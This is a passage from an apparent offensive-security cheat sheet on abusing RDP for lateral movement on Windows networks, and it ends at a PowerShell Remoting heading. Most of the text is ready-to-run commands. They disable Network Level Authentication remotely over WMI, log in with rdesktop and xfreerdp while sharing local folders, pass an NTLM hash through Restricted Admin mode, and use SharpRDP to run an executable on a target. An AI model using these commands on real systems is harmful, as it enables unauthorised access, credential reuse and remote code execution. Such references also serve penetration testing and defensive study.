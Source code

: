 ```powershell
# Disable NLA
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```

Abuse RDP protocol to execute commands remotely with the following commands;

* `rdesktop`

    ```powershell
    root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
    root@payload$ rdesktop -u username -p password -g 70% -r disk:share=/tmp/myshare 10.10.10.10
    # -g : the screen will take up 70% of your actual screen size
    # -r disk:share : sharing a local folder during a remote desktop session 
    ```

* `freerdp`

    ```powershell
    root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
    root@payload$ xfreerdp /v:10.0.0.1 /u:username # password will be asked
    
    # pass the hash using Restricted Admin, need an admin account not in the "Remote Desktop Users" group.
    # pass the hash works for Server 2012 R2 / Win 8.1+
    # require freerdp2-x11 freerdp2-shadow-x11 packages instead of freerdp-x11
    root@payload$ xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d  
    ```

* [SharpRDP](https://github.com/0xthirteen/SharpRDP)

    ```powershell
    PS C:\> SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
    ```

## Powershell Remoting Protocol

### Powershell Credentials
